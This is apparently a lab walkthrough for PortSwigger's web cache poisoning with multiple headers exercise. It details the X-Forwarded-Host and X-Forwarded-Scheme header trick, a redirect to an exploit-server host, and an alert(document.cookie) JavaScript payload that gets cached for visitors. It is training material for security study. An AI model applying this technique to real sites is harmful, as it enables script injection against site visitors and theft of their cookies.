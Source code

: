 # Web cache poisoning with multiple headers

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers) contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute.

## Reproduction and proof of concept

1. With Burp running, load the website's home page.
2. Go to **Proxy -> HTTP history** and study the requests and responses generated. Find the `GET` request for the JavaScript file `/resources/js/tracking.js` and send it to Burp Repeater.
3. Add a cache-buster query parameter, such as `?cb=1234`, and the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`. This does not seem to have any effect on the response.
4. Remove the `X-Forwarded-Host` header and add the `X-Forwarded-Scheme` header instead. Including any value other than HTTPS, the result is a `302` response. The `Location` header shows redirection to the same URL as requested, but using `https://`.
5. Add the `X-Forwarded-Host: example.com` header back to the request, but keep `X-Forwarded-Scheme: nothttps` as well. Send this request and notice that the `Location` header of the `302` redirect now points to `https://example.com/`.

```text
HTTP/1.1 302 Found
Location: https://example.com/?cb=1234
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Connection: close
Content-Length: 0
```

6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Go back to the request in Burp Repeater and set the `X-Forwarded-Host` header as follows, remembering to enter your own exploit server ID:

```text
X-Forwarded-Host: exploit-0aa200fc046815d2c11220f0016c0089.exploit-server.net
```

9. Make sure the `X-Forwarded-Scheme` header is set to anything other than `HTTPS`.
10. Send the request until you see the exploit server URL reflected in the response and `X-Cache: hit` in the headers.
11. To check that the response was cached correctly, right-click on the request in Burp, select **Copy URL**, and load the copied URL in the browser. If the cache was successfully poisoned, you will see the script containing the payload, `alert(document.cookie)` (The ``alert()`` won't actually execute here).
12. Go back to Burp Repeater, remove the cache buster, and resend the request until the cache is poisoned again.
13. To simulate the victim, reload the home page in your browser and make sure that the `alert()` fires.
14. Keep replaying the request to keep the cache poisoned until the victim visits the site and the lab is solved.

![Web cache poisoning](/_static/images/cache3.png)

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. 
